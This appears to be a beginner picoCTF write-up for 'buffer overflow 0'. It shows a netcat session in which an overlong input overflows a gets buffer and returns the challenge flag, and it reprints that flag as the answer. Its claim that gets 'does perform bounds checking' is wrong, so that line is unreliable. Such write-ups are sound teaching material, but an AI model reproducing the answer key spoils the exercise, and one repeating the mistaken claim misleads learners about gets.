 # 1. buffer overflow 0

Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here. Connect using: nc saturn.picoctf.net 58311

## Solution:

Looking at the code you can figure out that the sigsegv_handler fuction gives the flag, the gets command is being used which is susceptible to buffer overflow as it does perform bounds checking. So all we need to do is enter an input larger than the size of the variable to get the flag.

    cookorcooked@ubuntu25:~$ nc saturn.picoctf.net 58311
    Input: ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ
    picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}


## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

## Concepts learnt:

- Learnt about buffer overflow and vulnerabilities of the gets function.

## Notes:

- NONE
  
## Resources:

- NONE

***

